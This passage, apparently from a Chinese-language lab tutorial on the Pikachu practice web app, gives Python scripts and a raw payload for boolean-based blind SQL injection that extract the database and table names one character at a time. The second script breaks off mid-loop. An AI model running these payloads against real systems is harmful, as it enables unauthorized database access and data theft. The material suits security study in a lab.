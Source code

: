 python 脚本

```python
# 布尔盲注：获取数据库名称
import requests

ip = 'http://192.168.31.195/'

parameter = "kobe' and ascii(substr(database(), %d, 1)) = %d --+"

name = ''

for i in range(1, 8):
    for j in range(32, 128):
        url = ip + 'pikachu/vul/sqli/sqli_str.php?name=' + (parameter % (i, j)) + "&submit=查询"

        response = requests.get(url)

        html = response.text

        if html.find("您输入的username不存在，请重新输入！") == -1:
            name = name + chr(j)
            break

print("The name of the database is " + name)
```

#### 查询数据库表名

```sql
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0 ,1), 1, 1)) = 104 #
```

python脚本：

````python
# 布尔盲注：获取数据库表名
import threading

import requests

ip = 'http://192.168.31.195/'

parameter = "kobe' and ascii(substr((select table_name " \
            "from information_schema.tables where table_schema=database() limit %d ,1), %d, 1)) = %d --+"

address = 'pikachu/vul/sqli/sqli_blind_b.php?name='

names = ''

# 设置重连次数
requests.DEFAULT_RETRIES = 5


def run(k):
    name = ''
    global names

    for i in range(1, 12):
        for j in range(32, 128):
            url = ip + address + (parameter % (k, i, j)) + "&submit=查询"

            response = requests.get(url)

````